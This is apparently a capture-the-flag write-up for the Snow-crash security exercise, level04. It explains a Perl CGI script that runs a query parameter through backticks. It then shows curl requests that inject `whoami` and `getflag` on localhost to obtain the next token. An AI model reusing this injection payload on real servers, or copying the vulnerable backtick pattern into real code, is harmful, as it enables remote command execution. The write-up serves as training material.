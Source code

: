 ```yaml
---
title:  "Snow-crash Level04"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
---
```


#### 1. The password of `level04` is the token that got from `level03`.

```
qi0maab88jeaj46qoumi7maus

```
#### 2. So, try login to `level04` with the password we got from `level03` and try to put the command 'ls -la'. We can see the file 'level04'. 
```
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
#### 3. Let's go inside in level04. 
```
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ ./level04.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.23",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html
```

We can see A file with `.pl` extension. 

So, what is a PL file? 

A file with .pl extension is a `Perl Script` file that is a scripting language. 

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This is a simple `CGI(Common Gateway Interface) script` that takes a parameter "x" from the query string and prints the result of runnig the command specified by the parameter using the `echo` commmand.

<details>
<summary> Note: What is CGI?  </summary>
What is CGI? : CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases.
</details>
<br>

<details>
<summary> Note: What is query?  </summary>
In the context of the Perl CGI script provided, the "query" refers to the string of parameters and their values that are passed to the script through the URL when it is accessed. This string typically follows a question mark (?) in the URL and consists of key-value pairs separated by ampersands (&).

For example, if you access the script via a URL like this:

```
http://example.com/cgi-bin/script.cgi?x=ls%20-l
```

In this URL, the query string is x=ls%20-l. Here, x is the parameter name, and ls%20-l is its value. The %20 is a URL-encoded representation of a space character.

So, in this example, the query is x=ls%20-l, where the parameter x is assigned the value ls -l. When the Perl CGI script is executed with this query, it retrieves the value of the x parameter (ls -l in this case) and executes it as a command.
</details>
<br>

<details>
<summary> Details for the perl script </summary>
* `#!/usr/bin/perl`: This is a hashebang line specifying the path to the Perl interpreter to be used to execute this script.

* `use CGI qw{param};`: This line imports the param function from the CGI module. The param function is used to retrieve the values of parameters from the query string.

* `print "Content-type: text/html\n\n";`: This line sends an HTTP header indicating that the content is of type "text/html". The double newline (\n\n) separates the header from the body.

* `sub x { ... }`: This defines a subroutine (function) named "x". It takes one parameter and assigns its value to the variable $y.

* `$y = $_[0];`: This line assigns the value of the first (in this case, only) argument passed to the subroutine to the variable $y.

* `print echo $y 2>&1;`: This line prints the result of the command specified in $y. Backticks (``) are used to execute the command, and `2>&1` redirects both standard output and standard error to the output. This is a common technique to capture both normal output and error messages.

* `x(param("x"));`: This line calls the subroutine "x" using the value of the "x" parameter from the query string.

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.
</details>
<br>


We can see another interesting thing in that perl script.
The script indicates that 

```
# localhost:4747
```

Maybe, there is something on the port 4747. 

#### 4. Let's check on the port 4747. 

`nc -zv` allows to check connection to 4747 without sending any data and verbose mode.

<details>
<summary> 'nc' command in Linux </summary>

* nc : This is the command itself, which is short for "netcat." Netcat is a versatile networking utility for reading from and writing to network connections using TCP or UDP protocols.

* -z: This option tells nc to scan for open ports rather than initiating a data transfer. When used with the -v option, it prints verbose output, indicating whether the connection was successful or not.

* -v: This option stands for "verbose" and instructs nc to provide more detailed output, including the status of each connection attempt.

So, when you run nc -zv, you are instructing Netcat to attempt to connect to a specified host and port without sending any data (-z), while also providing verbose output (-v) to show the result of each connection attempt. This is commonly used for port scanning to check if a port on a remote system is open or closed.

</details>
<br>

```
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```

#### 5. Now, combine numbers 3 and 4 and  let’s send data using the `x parameter` and `port 4747` with `curl` command.


```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```

We got the `Flag04` with the whoami parameter.

Maybe we can try again with x parameter with getflag. And here we go, we got the flag :)
```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


#### 6. We got a token for next level05

```
ne2searoevaevoem4ov4ar8ap
```
